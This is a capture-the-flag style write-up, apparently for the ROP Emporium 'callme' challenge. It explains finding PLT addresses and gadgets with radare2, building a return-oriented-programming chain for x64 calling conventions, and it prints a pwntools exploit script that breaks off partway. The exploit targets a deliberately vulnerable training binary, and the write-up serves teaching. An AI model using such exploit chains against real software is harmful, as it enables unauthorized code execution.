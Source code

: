 As seen above, `callme_one` is located at `0x00400720`, `callme_two` at `0x00400740`, and `callme_three` at `0x004006f0`.

Now that we have the PLT addresses of these function calls, we can search for some ROP gadgets so that we can set the RDI, RSI, and RDX registers.
We need to do this because on x64 CPU architectures, the first argument to calling a function goes in the RDI register, the second in RSI, and third in RDX.

```
[0x00400760]> /R pop rdi;
  0x0040093c                 5f  pop rdi
  0x0040093d                 5e  pop rsi
  0x0040093e                 5a  pop rdx
  0x0040093f                 c3  ret

  0x004009a3                 5f  pop rdi
  0x004009a4                 c3  ret
```

A really nice gadget is located at `0x0040093c`. Leveraging this gadget, we should be able to construct a ROP chain that invokes `callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)` that looks like the following:

```
pop rdi; pop rsi; pop rdx; ret; | 0xdeadbeefdeadbeef | 0xcafebabecafebabe | 0xd00df00dd00df00d | callme_one
```

As the stack unravels from this gadget, `0xdeadbeefdeadbeef` will pop into RDI, `0xcafebabecafebabe` into RSI, and `0xd00df00dd00df00d` into RDX.
Finally, code execution will resume at `callme_one`.

Leveraging this concept, when `callme_one` returns, we can resume execution into the next part of our ROP chain which will look like this:

```
... | pop rdi; pop rsi; pop rdx; ret; | 0xdeadbeefdeadbeef | 0xcafebabecafebabe | 0xd00df00dd00df00d | callme_two
```

The pattern above is similar to the first part of the ROP chain. Basically, we can repeat this pattern as many times as we like.

Our final exploit code will look like the following:

```python
from pwn import *

# Set the pwntools context
context.arch = 'amd64'
context.log_level = 'debug'

# Project constants
PROCESS = './callme'
io = process(PROCESS)

# Gadgets
rop = ROP(io.elf)
pop_rdi_pop_rsi_pop_rdx_ret = p64(rop.search(move=0,regs=['rdi', 'rsi', 'rdx']).address)
callme_one = p64(io.elf.plt['callme_one'])
callme_two = p64(io.elf.plt['callme_two'])
callme_three = p64(io.elf.plt['callme_three'])
arg0 = p64(0xdeadbeefdeadbeef)
arg1 = p64(0xcafebabecafebabe)
arg2 = p64(0xd00df00dd00df00d)

# Invoke callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)
rop.raw(pop_rdi_pop_rsi_pop_rdx_ret)
rop.raw(arg0)
```
